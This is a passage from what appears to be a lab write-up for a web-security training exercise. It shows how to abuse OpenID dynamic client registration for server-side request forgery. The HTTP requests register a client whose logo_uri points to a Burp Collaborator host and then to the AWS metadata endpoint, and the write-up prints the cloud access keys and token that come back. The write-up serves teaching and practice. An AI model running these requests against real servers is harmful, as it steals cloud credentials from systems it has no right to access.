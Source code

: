 2.  once registration is found we can register our own application. we start with just a placeholder, to check if we can register our app::
request:
    POST /reg HTTP/1.1
    Host: oauth-0ade002103334477c08e5c78022700d7.web-security-academy.net

    {
        "redirect_uris" : [
            "https://example.com"
        ]
    }

response:
    HTTP/1.1 201 Created

    {
    ..
    "client_id":"t2sVtQyk5Pf1B0Rm3cWKp",
    ..
    ,"redirect_uris":["https://example.com"
    }



3.  the openID lets a user choose its own logo - as defined by logo_uri claim. add claim with Burp Collaborator address to check if it redirects:
    POST /reg HTTP/1.1
    Host: oauth-0ade002103334477c08e5c78022700d7.web-security-academy.net

    {
        "redirect_uris" : [
            "https://example.com"
        ],
    "logo_uri" : "https://nofedguoj1rc4c5n6krwdtibn2tshh.oastify.com"
    }

check collaborator to see we have am http request - we now know the redirect is working


4.  change the redirect uri to poiont to the target adddress:
    POST /reg HTTP/1.1
    Host: oauth-0ade002103334477c08e5c78022700d7.web-security-academy.net

    {
        "redirect_uris" : [
            "https://example.com"
        ],
    "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"

5. copy the clientID and paste it at the logo rewuest as follow:
request:
    GET /client/xsibNCUsoQJAMTrDH_d7P/logo HTTP/1.1

response:
    HTTP/1.1 200 OK

    {
    "Code" : "Success",
    "LastUpdated" : "2022-10-26T20:45:05.318168283Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "KbxzJNXvDg32mEfgItrP",
    "SecretAccessKey" : "JVI8mV41VplyWD7FQHa1XumcdlqBUa7yNCEa2TDC",
    "Token" : "TA5mMAJTBAOMy32FcgFxfJxsWbL6q6CaOztu8XPtzdrtC3VksESkgciJeejpphtJY23AnsR9lVxLfHHhapHQvjAWYbkS8G6mQwB2VJBa8EJ5AFXtSM5DIonEjy6Epj2gdnVcrITe0RAFDfSEdQfyszS2PEUDxyjOamkavH0PQPqK0sLSOgG0T4pN9n4Llhu8L7trKMKejGh9Yd0PfbJHaS8oyR7ZqKpqLvdnZSg5i55evnkJvcGLNnQdAEXp3bjU",
    "Expiration" : "2028-10-24T20:45:05.318168283Z"
